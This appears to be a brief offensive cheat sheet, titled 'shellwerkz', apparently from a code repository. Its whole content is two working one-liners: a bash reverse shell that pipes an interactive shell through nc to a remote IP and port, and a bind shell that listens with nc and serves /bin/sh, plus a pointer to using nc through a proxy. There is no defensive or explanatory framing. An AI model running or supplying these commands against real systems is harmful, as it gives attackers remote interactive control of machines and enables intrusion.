 # shellwerkz

# Reverse shell
## bash
```bash
mkfifo /tmp/ffifo; /bin/bash -i < /tmp/ffifo 2>&1 | nc $remote_ip $port > /tmp/ffifo
```
You may need to use [`nc` with a proxy](./netcat.md).

# Bind shell
```bash
mkfifo /tmp/f
/bin/sh -i 2>&1 < /tmp/f | nc -lvp $port > /tmp/f
```